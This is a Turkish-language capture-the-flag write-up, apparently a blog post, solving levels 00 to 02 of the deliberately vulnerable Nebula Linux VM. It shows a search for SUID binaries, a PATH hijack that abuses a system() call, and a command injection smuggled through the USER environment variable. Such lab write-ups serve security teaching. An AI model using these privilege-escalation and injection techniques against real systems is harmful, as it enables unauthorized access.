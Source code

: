 ```yaml
---
layout: post
title: "Nebula Write Up-1"
date: 2018-02-26
excerpt: "[Level 00-Level 04]"
comments: false
---
```

  Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.

### Level 00

Bu level için bizden beklenen flag00 kullanıcısına ait, suid bitine sahip olan, çalıştırılabilir bir dosya bulmamız. 

{% raw %}
    level00@nebula:~$ find / -type f -user flag00 -perm -u=s 2>/dev/null
    /bin/.../flag00
    /rofs/bin.../flag00
{% endraw %}
Dosyaları incelediğimizde ELF türünde olduklarını görüyoruz. Dosyalardan birini çalıştırdığımızda,
{% raw %}
    level00@nebula:~$ /bin/.../flag00
    Congrats, now run getflag to get your flag !
    flag00@nebula:~$
{% endraw %}
flag değerini elde edebilmek için getflag dosyasını çalıştırmamız gerektiği bilgisine erişiyoruz.
{% raw %}
    flag00@nebula:~$ find / -name getflag
    /bin/getflag
    /rofs/bin/getflag
    flag00@nebula:~$ /bin/getflag
    You have successfully executed getflag on a target account
{% endraw %}

### Level 01

Bu bölümde bizden beklenen /home/flag01 dizini altında bulunan c programında, istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmamız.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
     gid_t gid;
     uid_t uid;
     gid = getegid();
     uid = geteuid();

     setresgid(gid, gid, gid);
     setresuid(uid, uid, uid);

     system("/usr/bin/env echo and now what?");
    }
{% endraw %}
{% endhighlight %}

Programın işleyişini daha iyi anlayabilmek adına, kaynak kodda bulunan bazı fonksiyonlara bakalım.

> **gid_t getegid(void);**  çağırılan processin effective group-id değerini döndürüyor. 

> **uid_t geteuid(void);**  çağırılan processin effective user-id değerini döndürüyor. 

> **int setresgid(gid_t rgid,gid_t egid,git_t sgid);**  çağırılan processin real,effective,saved  group-id değerlerini set ediyor. 

> **int setresuid(uid_t ruid,uid_t euid,uid_t suid);**  çağırılan processin real,effective,saved user-id değerlerini set ediyor. 

`Effective uid/gid` ve `real uid/gid` kavramları arasındaki farkı da şu şekilde özetleyebiliriz:
> Shell login işlemi gerçekleştiğinde real uid/gid  ile effective uid/gid değerleri aynıdır, ve processi yaratan kullanıcının uid/gid'sine karşılık gelir. Effective uid/gid değeri; suid bitine sahip olan bir dosya çalıştırıldığında ve dosya sahibi ile dosyayı çalıştıran kullanıcı farklı olduğu durumlarda değişir. Dosya sahibinin uid/gid'sine karşılık gelir. Özet olarak real uid/gid processi yaratan kullanıcının uid/gid değerine eşitken, effective uid/gid dosya sahibinin uid/gid değerine eşit olur.

Aşina olmadığımız fonksiyonlar hakkında fikir sahibi olduktan sonra, asıl meseleye geri dönelim.Programı çalıştırdığımızda beklenen üzere bu şekilde bir çıktı elde ediyoruz.
{% raw %}
    level01@nebula:/home/flag01$ ./flag01
    and now what?
{% endraw %}
Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir şey elde edemiyoruz. Manipüle edilebilir gibi görünen system() fonksiyonu üzerinden yürümeyi deniyoruz.Burada dikkatimizi çeken echo komutunun önünde bulunan /usr/bin/env komutu.
> `/usr/bin/env` komutu, programı değiştirilmiş bir ortamda çalıştırmayı sağlar. Bunun için PATH değişkeninde bulunan dizinlere sırası ile bakılır. Çalıştırılmak istenen program ilk hangi dizinde bulunursa, o dizindeki program çalıştırılır.

> `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.

Bizde PATH değişkenine yeni bir dizin ekleyip,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydettiğimizde, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
{% raw %}
    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
    level01@nebula:/home/flag01$ ./flag01
    You have successfully executed getflag on a target account
{% endraw %}

### Level 02
Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizininde bulunan programda,istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmak.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endraw %}
{% endhighlight %}
Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02 is cool")
    level02 is cool
{% endraw %}
Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
{% raw %}
    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
    level02@nebula:/home/flag02$ echo $USER
    level02; /bin/getflag ; echo
{% endraw %}
Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
    level02
    You have successfully executed getflag on a target account
    is cool
{% endraw %}

